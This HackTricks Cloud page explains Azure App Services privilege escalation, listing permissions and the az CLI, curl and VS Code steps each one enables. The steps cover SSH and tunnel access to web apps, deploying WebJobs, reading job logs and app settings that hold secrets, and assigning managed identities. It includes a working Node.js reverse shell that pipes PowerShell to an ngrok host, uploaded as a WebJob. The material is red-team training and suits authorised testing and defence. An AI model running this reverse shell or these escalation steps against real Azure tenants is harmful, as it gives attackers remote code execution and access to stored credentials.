 # Az - App Services Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## App Services

For more information about Azure App services check:

{% content-ref url="../az-services/az-app-services.md" %}
[az-app-services.md](../az-services/az-app-services.md)
{% endcontent-ref %}

### Microsoft.Web/sites/publish/Action, Microsoft.Web/sites/basicPublishingCredentialsPolicies/read, Microsoft.Web/sites/config/read, Microsoft.Web/sites/read,&#x20;

These permissions allows to call the following commands to get a **SSH shell** inside a web app or **start a debugging session** within the app.

* SSH Direct:

```bash
# Direct option
az webapp ssh --name <name> --resource-group <res-group>
```

* Create tunnel and then connect to SSH:

{% code overflow="wrap" %}
```bash
az webapp create-remote-connection --name <name> --resource-group <res-group>

## If successfull you will get a message such as:
#Verifying if app is running....
#App is running. Trying to establish tunnel connection...
#Opening tunnel on port: 39895
#SSH is available { username: root, password: Docker! }

## So from that machine ssh into that port (you might need generate a new ssh session to the jump host)
ssh root@127.0.0.1 -p 39895
```

* Start Debugging Session:
    1. Open the Azure extension from Visual Studio Code and login with a user with enough permissions.
    2. Access the Subscription and inside of it list the App Services.
    3. Right click on the App Service and select **Start Remote Debugging**.
    4. You might need the permission `Microsoft.Web/sites/config/write` to **enable debugging** in the App service. Note that an app debuggin option is set to off automatically every 48h.


### Microsoft.Web/sites/publish/Action

This permission, among other things, allows to:

* Create a new Webjosb (this could also be done using the SCM creds):

```bash
# Example Windows + NodeJS rev shell code (rev.js):
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("powershell.exe", ["-ep", "bypass"]);
    var client = new net.Socket();
    client.connect(12557, "4.tcp.eu.ngrok.io", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();


# Using Azure permissions
az rest \
	 --method put \ 
	--uri "https://<APP_SERVICE_NAME>.scm.azurewebsites.net/api/continuouswebjobs/<WEBJOB_NAME>" \
	 --headers "Content-Type=application/zip" \
	 --body "@/path/to/MyWebJob.zip" \
	 --auth basic --username <USERNAME> --password <PUBLISHING_PASSWORD>

## Full example
az rest \
  --method put \
  --uri "https://windowsapptesting-ckbrg3f0hyc8fkgp.scm.canadacentral-01.azurewebsites.net/api/Continuouswebjobs/reverse_shell" \
  --headers '{"Content-Disposition": "attachment; filename=\"rev.js\""}' \
  --body "@/Users/carlospolop/Downloads/rev.js" \
  --resource "https://management.azure.com/"

# Using username and password:
curl -X PUT \
  "<SCM-URL>/api/Continuouswebjobs/<webjob-name>" \
  -H 'Content-Disposition: attachment; filename=rev.js' \
  --data-binary "@/Users/carlospolop/Downloads/rev.js" \
  --user '<username>:<password>'
```

* Read the logs of the Webjobs which could contain **sensitive info**. Moreover, it's also possible to use the SCM credentials to access the logs:
{% code overflow="wrap" %}
```bash
# Using Azure permissions
az rest --method GET --url “<app-url>/vfs/data/jobs/<continuous | triggered>/rev5/job_log.txt"  --resource "https://management.azure.com/"
az rest --method GET --url "https://lol-b5fyaeceh4e9dce0.scm.canadacentral-01.azurewebsites.net/vfs/data/jobs/continuous/rev5/job_log.txt" \
    --resource "https://management.azure.com/"

# Using SCM credentials
curl "<SCM URL>/vfs/data/jobs/<triggered | continuos>/<webjob-name>/job_log.txt" \
  --user '<username>:<password>' -v
```

### Microsoft.Web/sites/config/list/action

This permission allows to list the app settings of the web app. This could contain sensitive information such as **connection strings** or **API keys**.

```bash
az webapp config appsettings list --name <name> --resource-group <res-group>
```

### Microsoft.ManagedIdentity/userAssignedIdentities/assign/action, Microsoft.Web/sites/write, Microsoft.Web/sites/read

These permissions allow to **assign a managed identity** to the web app. If the attacker has already compromised an App this could be useful to **escalate privileges** to other managed identities.

```bash
az webapp identity assign --name <app-name> --resource-group <res-group> --identities /subscriptions/<subcripttion-id>/resourceGroups/<res_group>/providers/Microsoft.ManagedIdentity/userAssignedIdentities/<managed-identity-name>
```

{% endcode %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
